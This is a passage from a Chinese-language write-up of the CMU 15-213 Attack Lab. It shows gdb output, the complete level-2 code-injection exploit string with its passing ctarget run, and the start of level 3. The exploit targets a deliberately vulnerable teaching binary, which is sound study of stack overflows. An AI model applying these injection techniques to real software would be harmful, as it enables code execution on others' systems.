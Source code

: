 ```shell
 1│ Dump of assembler code for function getbuf:
 2│ buf.c:
 3│ 12      in buf.c
 4│    0x00000000004017a8 <+0>:     sub    $0x28,%rsp
 5│
 6│ 13      in buf.c
 7│ 14      in buf.c
 8├──> 0x00000000004017ac <+4>:     mov    %rsp,%rdi

(gdb) x/gx $rsp
0x5561dc78:     0x0000000000000000
```

即最终答案为
```txt
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

```shell
ubuntu@VM-0-8-ubuntu:~/learnning_project/CMU-15213/src/Attack-Lab$ ./ctarget -q -i <(./hex2raw < ctarget.l2.txt)
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```

### Level 3

改成了传一个字符串参数

> Within the file `ctarget` there is code for functions hexmatch and `touch3` having the following C representations:
> ![hexmatch](https://s2.loli.net/2025/08/17/BVg468kxKLSZfJI.png)
> Your task is to get `CTARGET` to execute the code for `touch3` rather than returning to test. You must make it appear to `touch3` as if you have passed a string representation of your cookie as its argument.

避免去查ascii，这里有一个小技巧
```shell
man ascii
```

注意到hex_march这里有一个*s,随机在一个栈的位置取值，根据后面的写法，这里用sprintf完成了从unsigned到string的转变。并且重写了部分栈的区域。
